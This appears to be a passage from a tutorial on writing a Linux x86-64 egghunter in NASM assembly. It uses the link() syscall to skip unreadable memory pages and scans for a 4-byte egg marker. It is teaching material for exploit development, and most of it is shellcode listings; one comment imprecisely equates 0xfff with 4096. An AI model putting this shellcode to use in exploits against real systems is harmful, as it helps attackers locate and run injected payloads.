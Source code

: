 For the purpose of the egghunter, we do not care about what the function/system call really does. All we care about is that it will return an error if the memory address we feed it is not readable.   
You may be thinking: 
+ "Why do I need to know if the address is readable or not?"
+ "Why not just read/scan each byte of the memory space, regardless if it's readable or not?"  

Well, if you try that, you will quickly discover that your egghunter crash the host program. To avoid crashing, we will discover readability by passing the memory address to link as the first argument `*oldpath`. For the second argument `*newpath` we will set that to 0.   

#### Assembly for our Link Function  

```nasm
 lea rdi, [rdx+0x8]  ; ARG1=*oldpath
 xor rsi, rsi        ; ARG2=*newpath
 xor rax, rax        ; reset rax for syscall
 add al, 0x56        ; System Call for link()
 syscall             ; Executes link()
```    

### Link() - Cannot Read Memory  
If the memory at the address in the `RDI` register is not readable, an error code will be returned in the rax register. After the system call, we will check for this error. If the error exists, then we will check the next memory page.  

#### Next Memory Page Assembly  

```nasm  
nextPage:            ; Increment RDX to the next memory page
 or dx, 0xfff        ; 0xfff = 4096. Size of page
nextAddress:         ; Increment RDX to the next memory address
 inc rdx
 lea rdi, [rdx+0x8]  ; ARG1=*oldpath
 xor rsi, rsi        ; ARG2=*newpath
 xor rax, rax        ; reset rax for syscall
 add al, 0x56        ; System Call for link()
 syscall             ; Executes link()
 cmp al, 0xf2        ; Can memory address be read?
 jz nextPage         ; If no, check the next memory page
```  

+ The error for not being able to read the memory is `0xfffffffffffffff2`. Checking the last byte works just as good as checking all 8 bytes, and it also makes our shellcode length smaller.

### Check for the Egg
If the memory is readable, then we will check to see if our egg exists at the memory location.

```nasm  
 jz nextPage         ; If no, check the next memory page
 xor rbx, rbx
 add ebx, 0x50905090 ; Configure Egg in RBX
 cmp [rdx], ebx      ; Egg?
 jnz nextAddress     ; No Egg? Go to next memory page
```   
